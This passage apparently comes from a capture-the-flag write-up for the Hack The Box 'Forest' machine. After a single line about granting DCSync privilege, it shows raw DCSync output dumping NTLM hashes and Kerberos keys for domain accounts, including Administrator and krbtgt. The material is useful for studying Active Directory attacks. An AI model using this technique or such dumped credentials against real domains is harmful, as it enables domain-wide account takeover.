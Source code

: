 ```DCSync Privilege``` is added to our new user, we can easily dump all hashes using ```DCSync Attack```
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
aidenpearce369:9602:aad3b435b51404eeaad3b435b51404ee:0cb69e78807bb0bce38103060a3e4628:::
FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:f6bec6f0744f874b2347f59f9267b449:::
EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
[*] Kerberos keys grabbed
htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
htb.local\Administrator:aes128-cts-hmac-sha1-96:b5880b186249a067a5f6b814a23ed375
htb.local\Administrator:des-cbc-md5:c1e049c71f57343b
krbtgt:aes256-cts-hmac-sha1-96:9bf3b92c73e03eb58f698484c38039ab818ed76b4b3a0e1863d27a631f89528b
krbtgt:aes128-cts-hmac-sha1-96:13a5c6b1d30320624570f65b5f755f58
krbtgt:des-cbc-md5:9dd5647a31518ca8
htb.local\HealthMailboxc3d7722:aes256-cts-hmac-sha1-96:258c91eed3f684ee002bcad834950f475b5a3f61b7aa8651c9d79911e16cdbd4
htb.local\HealthMailboxc3d7722:aes128-cts-hmac-sha1-96:47138a74b2f01f1886617cc53185864e
htb.local\HealthMailboxc3d7722:des-cbc-md5:5dea94ef1c15c43e
htb.local\HealthMailboxfc9daad:aes256-cts-hmac-sha1-96:6e4efe11b111e368423cba4aaa053a34a14cbf6a716cb89aab9a966d698618bf
htb.local\HealthMailboxfc9daad:aes128-cts-hmac-sha1-96:9943475a1fc13e33e9b6cb2eb7158bdd
htb.local\HealthMailboxfc9daad:des-cbc-md5:7c8f0b6802e0236e
```